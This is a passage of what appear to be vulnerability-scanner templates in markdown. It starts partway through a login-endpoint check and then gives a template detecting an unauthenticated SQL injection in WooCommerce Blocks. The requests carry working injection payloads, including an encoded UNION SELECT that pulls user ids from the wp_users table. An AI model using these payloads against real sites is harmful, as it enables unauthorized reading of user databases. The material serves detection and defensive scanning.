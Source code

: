### Step - 3

```
POST /controller/login.php?acao=autenticar HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

idusuario=''&idsenha=a&tipousr=Usuario

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_3, "Os parametros não estão informados corretamente")
  2. contains(body_3, "O CNPJ dos parametro não está informado corretamente")
- condition - or

**Type - dsl**

- dsl
  1. status_code_2 == 500 && status_code_3 == 200

---

# WooCommerce Blocks 2.5 to 5.5 - Unauthenticated SQL Injection

## Description

- woocommerce-gutenberg-products-block is a feature plugin for WooCommerce Gutenberg Blocks. An SQL injection vulnerability impacts all WooCommerce sites running the WooCommerce Blocks feature plugin between version 2.5.0 and prior to version 2.5.16. Via a carefully crafted URL, an exploit can be executed against the `wc/store/products/collection-data?calculate_attribute_counts[][taxonomy]` endpoint that allows the execution of a read only sql query. There are patches for many versions of this package, starting with version 2.5.16. There are no known workarounds aside from upgrading.

- severity - high
- tags - cve,cve2021,wordpress,woocommerce,sqli,wp-plugin,wp,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/?rest_route=/wc/store/products/collection-data&calculate_attribute_counts[0][query_type]=or&calculate_attribute_counts[0][taxonomy]=%252522%252529%252520union%252520all%252520select%2525201%25252Cconcat%252528id%25252C0x3a%25252c%252522sqli-test%252522%252529from%252520wp_users%252520where%252520%252549%252544%252520%252549%25254E%252520%2525281%252529%25253B%252500
